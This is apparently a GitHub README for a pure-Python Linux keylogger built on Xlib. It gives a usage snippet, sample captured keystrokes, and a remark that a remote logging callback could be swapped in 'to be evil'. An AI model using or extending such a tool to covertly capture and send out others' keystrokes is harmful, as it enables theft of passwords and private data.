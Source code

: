 PyKeylogger is a proof of concept of a pure-python keylogger for linux.  It uses Xlib (so you must have an X connection!) to monitor the state of the keyboard.  Here's how you use it:

```python
import keylogger
import time

now = time.time()
done = lambda: time.time() > now + 60
def print_keys(t, modifiers, keys): print "%.2f   %r   %r" % (t, keys, modifiers)

keylogger.log(done, print_keys)
```

This will print key events to stdout for 60 seconds.  If you wanted to be evil, instead of passing in a print callback, you could pass in a remote logging precedure.

Sample output:


    1314238675.42   'o'   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.51   'm'   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
    1314238675.65   'g'   {'left shift': False, 'right alt': False, 'right shift': False, 'left alt': False, 'left ctrl': False, 'right ctrl': False}
# Key-logger-for-Linux

